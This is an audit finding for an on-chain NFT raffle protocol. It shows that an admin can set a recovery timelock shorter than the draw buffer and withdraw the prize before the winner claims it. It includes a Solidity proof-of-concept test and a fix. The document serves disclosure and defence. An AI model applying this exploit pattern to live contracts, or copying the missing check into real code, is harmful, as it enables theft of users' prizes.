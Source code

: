 ## [Forgeries Overview](https://code4rena.com/contests/2022-12-forgeries-contest#top)

| Protocol  | Website     | Twitter     | Contest Pot | Length | Time spent |
|-----------|-------------|-------------|-------------|--------|------------|
| Forgeries | [None]() | [None]() | 36,500 USDC | 3 days | < 4 Hours |  

### About Forgeries

A protocol for on-chain games with NFT prizes on Ethereum. We want to raffle away a single NFT (token) based off of another NFT collection (or drawingToken) in a fair and trustless manner.

### Findings Summary

| Risk   | Title                                                                             |
|--------|-----------------------------------------------------------------------------------|
| [H-01] | Admin can withdraw the NFT before the winner timelock ends                        |

## [H-01] Admin can withdraw the NFT before the winner timelock ends

## Impact
The admin could set `recoverTimelock` before `drawBufferTime`, thus he can withdraw the NFT before the winner Draw buffer time ends.

## Proof of Concept

The `drawBufferTime` need to be more then an hour and less then a month and the `recoverTimelock` need to be at least a week, therefore if the admin sets `recoverTimelock` before `drawBufferTime`:

***In the case of a malicious admin:***

- The admin may have the chance to withdraw the NFT before the winner Draw buffer time ends (If the winner didn't claim it in the first week).

***In the case of an honest admin:***

- It will force him to clone a new implementation, which would be a waste of GAS.

In past audits, we have seen contract admins claim that invalidated configuration setters are fine since “admins are trustworthy”. However, cases such as [Nomad](https://twitter.com/samczsun/status/1554260106107179010) got drained for over $150M and Misconfiguration in the [Acala stablecoin](https://web3isgoinggreat.com/single/misconfiguration-in-the-acala-stablecoin-project-allows-attacker-to-steal-1-2-billion-ausd) project allows attacker to steal 1.2 billion aUSD have shown again and again that even trustable entities can make mistakes. Thus any fields that might potentially result in insolvency of protocol should be thoroughly checked.

***This is simple test that shows how the admin could withdraw the NFT before the winner:***

```solidity
function test_WithdrawBeforeUser() public {
        address winner = address(0x1337);
        vm.label(winner, "winner");
        address attacker = address(0x1577);
        vm.label(attacker, "attacker");

        vm.startPrank(winner);
        for (uint256 tokensCount = 0; tokensCount < 10; tokensCount++) {
            drawingNFT.mint();
        }
        vm.stopPrank();

        vm.startPrank(admin);
        targetNFT.mint();

        address consumerAddress = factory.makeNewDraw(
            IVRFNFTRandomDraw.Settings({
                token: address(targetNFT),
                tokenId: 0,
                drawingToken: address(drawingNFT),
                drawingTokenStartId: 0,
                drawingTokenEndId: 10,
                drawBufferTime: 2 weeks,
                recoverTimelock: 1 weeks + 1 seconds,
                keyHash: bytes32(
                    0x79d3d8832d904592c0bf9818b621522c988bb8b0c05cdc3b15aea1b6e8db0c15
                ),
                subscriptionId: subscriptionId
            })
        );
        vm.label(consumerAddress, "drawing instance");

        mockCoordinator.addConsumer(subscriptionId, consumerAddress);
        mockCoordinator.fundSubscription(subscriptionId, 100 ether);

        VRFNFTRandomDraw drawing = VRFNFTRandomDraw(consumerAddress);

        targetNFT.setApprovalForAll(consumerAddress, true);

        uint256 drawingId = drawing.startDraw();

        mockCoordinator.fulfillRandomWords(drawingId, consumerAddress);

        vm.stopPrank();

        assertEq(targetNFT.balanceOf(admin), 0);
        assertEq(targetNFT.balanceOf(winner), 0);
        assertEq(targetNFT.balanceOf(consumerAddress), 1);

        vm.warp(1 weeks + 1 seconds);

        vm.prank(admin);
        drawing.lastResortTimelockOwnerClaimNFT();

        assertEq(targetNFT.balanceOf(admin), 1);
        assertEq(targetNFT.balanceOf(consumerAddress), 0);
        assertEq(targetNFT.balanceOf(winner), 0);

        vm.prank(winner);
        vm.expectRevert("ERC721: transfer from incorrect owner");
        drawing.winnerClaimNFT();

        assertEq(targetNFT.balanceOf(admin), 1);
        assertEq(targetNFT.balanceOf(winner), 0);
        assertEq(targetNFT.balanceOf(consumerAddress), 0);
    }
```

## Tools Used

Manual Review

## Recommended Mitigation Steps

***Add this check in the [`initialize()`]() function te prevent `recoverTimelock` from being set before `drawBufferTime`:***

```solidity
if (_settings.recoverTimelock < _settings.drawBufferTime) {
    revert RECOVER_TIMELOCK_NEEDS_TO_BE_MORE_THEN_REDRAW_TIMELOCK();
}
```
